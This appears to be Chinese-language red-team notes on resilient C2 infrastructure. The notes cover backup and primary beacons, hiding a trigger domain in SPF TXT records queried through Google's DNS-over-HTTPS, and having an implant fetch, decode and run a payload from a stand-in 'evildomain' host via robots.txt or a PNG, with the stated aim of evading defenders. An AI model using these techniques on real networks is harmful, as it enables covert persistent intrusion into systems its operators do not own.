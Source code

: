 ### 构建高适应性的C2基础设施
Building resilient C2(command and control) infrastructures

* 持久访问方式(Persistent access)
  * 备用低频方式(long-haul beacons)stage 1
    * 功能极简 - 当所有的 日常高频方式(short-haul beacons) 都失败时 可以恢复对目标网络的访问(Backup channel)
    * 隐蔽性高 - 以尽量不让防御者发现的方式运作的方式：低频率的回调(calls back)、数据量小(如只传递payload的 delivery地址) ...
  * 日常高频方式(short-haul beacons)stage 2
    * 功能完整 - 功能强大的RAT`Cobalt Strike` `Empire` `Slingshot`...
    * 隐蔽性低 - 攻击者日常使用的、较频繁的对目标网络进行操作的方式
* 健壮的C2基础设施 特征
  * channel多样性 - 具有多个channel的持久访问 稳定性强（避免丢失目标网络的权限）
  * channel独立性 - 如果一个channel被发现，不会直接暴露其他channel（避免关联发现其他channel）
  * channel隐蔽性 - 通信流量加密形式或与正常的网络流量混合（避免各种方式的调查）

### stage 1 - 方案 - DNS over HTTPS (DoH)

>协议参考 [RFC 8484 - DNS Queries over HTTPS (DoH)](https://tools.ietf.org/html/rfc8484)

>方案实施参考 https://outflank.nl/blog/2018/10/25/building-resilient-c2-infrastructues-using-dns-over-https/

* stage 1 : DNS over HTTPS (DoH) - 通过https协议进行DNS解析 优势与特点
  * 可控字符串 `响应中有部分内容是攻击者可控的`
  * “白”域名 `Google Public DNS` https://dns.google.com/resolve?name=qq.com&type=TXT
  * 流量加密 `Over an SSL-encrypted channel`且许多已实施SSL检查的客户将所有`Google domains`排除在检查范围之外（因为Google产品中的证书，流量负载，隐私等）
* stage 2 : RAT


https GET https://dns.google.com/resolve?name=qq.com&type=TXT

请求中的url参数值`qq.com`为我们可控的域名，设置该域名 的[TXT record](https://en.wikipedia.org/wiki/TXT_record)中的 用于`SPF records`的字符串(通常这里放的是 `IP addresses` `domains` `server names` 在这里放上域名很合理 看起来是无害的)

举例如下：
```
"v=spf1 include:spf.mail.qq.com -all"
```
```
"v=spf1 ip4:192.0.2.0/24 ip4:198.51.100.123 a -all"
```

我们将在响应中看到 可控字符串（其中data字段中的内容确认为我们可控的）

response:
```
{
  "Status": 0,
  "TC": false,
  "RD": true,
  "RA": true,
  "AD": false,
  "CD": false,
  "Question": [
    {
      "name": "qq.com.",
      "type": 16
    }
  ],
  "Answer": [
    {
      "name": "qq.com.",
      "type": 16,
      "TTL": 3329,
      "data": "\"v=spf1 include:spf.mail.qq.com -all\""
    }
  ]
}
```

所以`DoH via Google`是一个触发payload运行的理想channel

* 目标主机中的`SPFtrigger`
  * 定期查询：提取DNS`TXT record`中`SPF records`信息
  * 触发条件：当发现了`SPF records`中的新域名时 得到了域名evildomain(stage 2)
  * 提取隐藏信息-方案a`http-robots.txt`
    * `SPFtrigger`程序根据evildomain域名 访问`http://evildomain/robot.txt`提取`payload` 进行decode得到raw payload
    * https://github.com/outflanknl/DoH_c2_Trigger/blob/master/DoHtrigger.ps1
  * 提取隐藏信息-方案b`http-xxx.png`
    * `SPFtrigger`程序根据evildomain域名 访问`http://evildomain/date.png`提取`payload` 进行decode得到raw payload
    * https://github.com/peewpw/Invoke-PSImage
  * 触发执行 - `payload triggering`
